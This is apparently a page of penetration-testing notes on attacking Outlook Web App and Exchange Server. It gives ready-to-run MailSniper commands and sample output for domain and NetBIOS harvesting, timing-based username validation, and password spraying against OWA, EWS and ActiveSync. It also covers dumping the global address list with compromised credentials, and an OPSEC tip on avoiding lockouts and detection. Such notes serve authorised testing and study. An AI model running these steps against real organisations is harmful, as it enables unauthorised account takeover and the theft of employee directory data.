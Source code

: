 ```yaml
---
title: OWA Exchange
category: Software
order: 6
---
```


The user interface in Outlook on the web (formerly known as Outlook Web App) for Exchange Server has been optimized and simplified for use with phones and tablets. Supported web browsers give users access to more Outlook features.

When you install Exchange Server, Outlook on the web is automatically available for internal users at `https://<ServerName>/owa` (for example, `https://mailbox01.contoso.com/owa`). But, you'll likely want to configure Outlook on the web for external access (for example, `https://mail.contoso.com/owa`).

In this section some attacks and enumeration techniques are going to be detailed.


# Password Spraying

Two excellent tools for password spraying againts Office 365 and Exchange are `MailSniper` and `SprayingToolkit`.

* [https://github.com/dafthack/MailSniper](https://github.com/dafthack/MailSniper)
* [https://github.com/byt3bl33d3r/SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)

```powershell
Import-Module .\MailSniper.ps1
```

## NetBIOS Enumeration

Enumerate the NetBIOS name of the target domain.

```
Invoke-DomainHarvestOWA -ExchHostname <IP>
```

## Domain Hardvesting

We can also bruteforce with a wordlist the OWA in order to find new domains.
```
Invoke-DomainHarvestOWA -ExchHostname 10.10.10.10 -DomainList .\domains.txt -Brute

[*] Harvesting domain name from the server at 10.10.10.10
Determining baseline response time...
Response Time (MS)       Domain\Username
35                       DcXGdH\RMiZSy
37                       XmSgFT\CLJKpM
56                       NxgOsI\zcYaPt
28                       MgSBFo\YXEQcP
40                       BAYNGp\xFqOer

         Baseline Response: 39.2

Threshold: 107.8

Response Time (MS)       Domain\Username
28                       www\LjldcpFEeQ
28                       mail\LjldcpFEeQ
36                       ftp\LjldcpFEeQ
37                       localhost\LjldcpFEeQ
49                       webmail\LjldcpFEeQ
57                       smtp\LjldcpFEeQ
60                       webdisk\LjldcpFEeQ
40                       pop\LjldcpFEeQ
30                       cpanel\LjldcpFEeQ
32                       whm\LjldcpFEeQ
36                       ns1\LjldcpFEeQ
26                       ns2\LjldcpFEeQ
27                       autodiscover\LjldcpFEeQ
32                       autoconfig\LjldcpFEeQ
27                       ns\LjldcpFEeQ
26                       test\LjldcpFEeQ
43                       m\LjldcpFEeQ
26                       blog\LjldcpFEeQ
739                      dev\LjldcpFEeQ
[*] Potentialy Valid Domain! Domain:dev
61                       www2\LjldcpFEeQ
44                       ns3\LjldcpFEeQ
```
## Finding Posible Usernames

It is common to see in organizations that usernames follow a pattern. For example:, typicall patterns are:

```
{first}.{last}
{f}.{last}
{f}{last}
{f}{las}
{last}{first}
```
### Hunter.io

Hunter.io lets you find professional email addresses with a domain in seconds and find the pattern using different hardvesting techniques.

* [https://hunter.io/](https://hunter.io/)

![Hunter.io](/hackingnotes/images/hunter.png)

### Namemash.py

`namemash.py` is a python script that transforms a list of person's full name into possible username permutations.

* [https://gist.github.com/superkojiman/11076951](https://gist.github.com/superkojiman/11076951)

```
root@kali:~# cat names.txt
John Doe

root@kali:~# namemash.py names.txt 
johndoe
doejohn
john.doe
doe.john
doej
jdoe
djoe
j.doe
d.john
john
joe
```

## Validating Posible Usernames

`Invoke-UsernameHarvestOWA` uses a timing attack to validate which (if any) of these usernames are valid.

* **MailSniper**:

```powershell
Invoke-UsernameHarvestOWA -ExchHostname <IP> -Domain CORP -UserList .\possible-usernames.txt -OutFile valid.txt
```

## Spraying Passwords

`MailSniper` can spray passwords against Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS).

* **MailSniper**:

```powershell
Invoke-PasswordSprayOWA -ExchHostname <IP> -UserList <userlist.txt> -Password "Corp2022"
```

> **OPSEC Alert**: Be careful when making authentication attempts as we may block accounts. Furthermore, making too many attempts in a short time is very noisy.


# Retrieving Address List

With credentials of a user inbox we can retrieve the whole address list.

* **MailSniper**:

```powershell
Get-GlobalAddressList -ExchHostname <IP> -UserName <CORP/jdoe> -Password <Corp2022> -Outfile addres-list.txt
```
